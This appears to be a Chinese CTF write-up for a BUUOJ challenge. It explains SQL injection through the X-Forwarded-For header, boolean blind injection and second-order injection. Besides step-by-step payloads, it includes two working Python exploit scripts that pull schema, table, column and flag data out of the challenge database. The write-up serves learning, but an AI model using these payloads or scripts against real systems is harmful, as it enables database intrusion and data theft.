




# 知识点：

# 1. xff头sql注入

# 2. 布尔盲注

# 3.二次注入


# 1. 判断注入点

尝试之后发现，网页会回显current ip和last ip

此时就可以考虑，是否存在xff头注入


# 2. 确定注入点

payload1:

```javascript
X-Forwarded-For: 1'or'1
```




current ip显示输入的1'or'1


payload2:

```javascript
X-Forwarded-For: 2
```




current ip：

last ip :1'or'1


payload3:

```javascript
X-Forwarded-For: 2
```




此时说明存在sql注入，输入的1'or'1被查询，返回了1


### 结论：

### 说明第一次输入会显示current ip

### 第二次输入的ip并不一样，会显示在last ip 并存入数据库

### 第三次输入的ip和第二次currentip一样，会把数据库中的last ip取出来

### 总之第三次会从数据库中取出，存入的数据，从而造成注入


# 3. 此时构造尝试注入

payload1:

```javascript
X-Forwarded-For: 0' or (select version())>5 or'0
```


payload2:

```javascript
X-Forwarded-For: 0
```


pyload3:

```javascript
X-Forwarded-For: 0
```




返回1说明version>5返回1

后面的语句就是：

```javascript
0'or 1 or'0
```

会返回1


此时就可以构造布尔盲注，当查询的结果为真时会返回1，为假会返回0


# 4.附上大佬的exp

```javascript
#!/usr/bin/env python3
# coding=utf-8

import requests

target = "http://node3.buuoj.cn:25851/?url=https://127.0.0.1"

def execute_sql(sql):
    print("[*]请求语句：" + sql)
    return_result = ""

#0'or legth() or'0
    payload = "0'|length((" + sql + "))|'0"
    session = requests.session()
    r = session.get(target, headers={'X-Forwarded-For': payload})
    r = session.get(target, headers={'X-Forwarded-For': 'aaa'})
    r = session.get(target, headers={'X-Forwarded-For': 'aaa'})
    start_pos = r.text.find("Last Ip: ")
    end_pos = r.text.find(" -->", start_pos)
    length = int(r.text[start_pos + 9: end_pos])
    print("[+]长度：" + str(length))

    for i in range(1, length + 1, 5):
        payload = "0'|conv(hex(substr((" + sql + ")," + str(i) + ",5)),16,10)|'0"

        r = session.get(target, headers={'X-Forwarded-For': payload}) # 将语句注入
        r = session.get(target, headers={'X-Forwarded-For': 'aaa'})    # 查询上次IP时触发二次注入
        r = session.get(target, headers={'X-Forwarded-For': 'aaa'})    # 再次查询得到结果
        start_pos = r.text.find("Last Ip: ")
        end_pos = r.text.find(" -->", start_pos)
        result = int(r.text[start_pos + 9: end_pos])
        return_result += bytes.fromhex(hex(result)[2:]).decode('utf-8')

        print("[+]位置 " + str(i) + " 请求五位成功:" + bytes.fromhex(hex(result)[2:]).decode('utf-8'))

    return return_result


# 获取数据库
print("[+]获取成功：" + execute_sql("SELECT group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e'"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e' AND TABLE_NAME = 'F4l9_t4b1e' "))

# 获取表中内容
print("[+]获取成功：" + execute_sql("SELECT group_concat(F4l9_C01uMn) FROM F4l9_D4t4B45e.F4l9_t4b1e"))
```


一个简单的exp:

```javascript
import requests
import time

url = "http://node3.buuoj.cn:25851/?url=http://127.0.0.1"
head = {
   "GET" : "/ HTTP/1.1",
   "Cookie" : "track_uuid=fbdc9ac2-c78a-458b-f6e5-ef05be43a421",
   "X-Forwarded-For" : ""
}
result = ""
for i in range(1,100):
   l = 1
   r = 127
   mid = (l+r)>>1
   while(l<r):
      head["X-Forwarded-For"] = "0' or ascii(substr((select group_concat(schema_name) from information_schema.schemata),{0},1))>{1} or '0".format(i,mid)
      html_0 = requests.post(url,headers = head)
      time.sleep(0.005)
      head["X-Forwarded-For"] = "0' or ascii(substr((select group_concat(schema_name) from information_schema.schemata),{0},1))>{1} or '0".format(i, mid+1)
      html_0 = requests.post(url, headers=head)
      time.sleep(0.005)
      html_0 = requests.post(url, headers=head)
      time.sleep(0.005)
      if "Last Ip: 1" in html_0.text:
         l= mid+1
      else:
         r=mid
      mid = (l+r)>>1
   if(chr(mid)==' '):
      break
   result+=chr(mid)
   print(result)
print("table_name:"+result)
```


